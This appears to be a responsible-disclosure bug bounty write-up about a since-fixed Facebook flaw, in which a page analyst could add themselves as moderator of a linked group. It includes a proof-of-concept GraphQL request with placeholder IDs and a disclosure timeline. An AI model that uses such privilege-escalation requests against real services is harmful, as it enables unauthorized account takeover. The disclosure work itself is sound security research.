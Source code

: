 ```yaml
---
layout: single
title:  "Facebook Bug Bounty: A page analyst could add themselves as the moderator on a group"
---
```


## Description
There is a call to add member as the moderator on a group. The call at the time didn’t seem to have any authorisation checks to page roles. A page analyst was possible to add oneself as a moderator on a linked group.

## Proof of Concept
```
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID

query_params={"0":{"user_id":"UserID","admin_type":"MODERATOR","actor_id":"PageID","client_mutation_id":"","source":"treehouse_group_mall","group_id":"GroupID"}}

```

## Timeline
- Dec 19, 2018 - Report Sent
- Dec 22, 2018 - Further investigation by Facebook
- Jan 9, 2019 - Fixed by Facebook
- Jan 11, 2019 - Bounty Awarded by Facebook

[![](http://img.youtube.com/vi/1_BJu-nLFoM/0.jpg)](http://www.youtube.com/watch?v=1_BJu-nLFoM "")

